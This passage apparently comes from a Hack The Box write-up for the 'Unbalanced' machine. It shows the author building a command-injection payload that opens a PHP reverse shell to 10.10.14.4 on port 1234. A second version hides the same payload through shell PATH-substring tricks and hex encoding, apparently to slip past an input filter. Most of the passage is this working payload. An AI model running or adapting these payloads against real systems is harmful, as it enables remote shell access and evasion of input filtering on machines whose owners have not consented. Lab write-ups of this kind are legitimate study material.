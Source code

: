 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2020.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2020.png)

So I just created a payload that gives me reverse shell.

```bash
aaaaaaaaaaaa&&php -r '$sock=fsockopen("10.10.14.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Using CyberChef, I just encoded to HEX.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2021.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-unbalanced/Untitled%2021.png)

With the example given in the Blog post, I created my payload.

```bash
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e34222c31323334293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
```
